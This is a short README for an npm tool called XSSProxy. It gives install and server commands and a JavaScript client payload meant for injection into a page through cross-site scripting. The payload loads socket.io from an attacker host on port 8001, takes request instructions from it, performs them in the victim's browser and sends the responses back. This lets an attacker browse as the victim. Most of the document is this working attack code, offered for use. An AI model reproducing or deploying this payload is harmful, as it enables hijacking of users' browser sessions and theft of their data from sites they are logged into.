 # XSSProxy (Alpha version)

## Install
`npm install -g xssproxy`
## Usage
Server:
```command
node index.js
node index.js -p 8000 -sp 8001
node index.js --port 8000 --sio-port 8001
```

client:
```javascript
var script = document.createElement('script');
script.onload = function(){
  var socket = io('http://xssproxy:8001');
  socket.on('request', function (data,send) {
      var xhr = new XMLHttpRequest;
      xhr.open(data.method,data.url); 
      xhr.onload=function(){send(this.responseText);};
      xhr.send();
  }); 
};
script.src = 'http://xssproxy:8001/socket.io/socket.io.js';
document.head.appendChild(script);
```
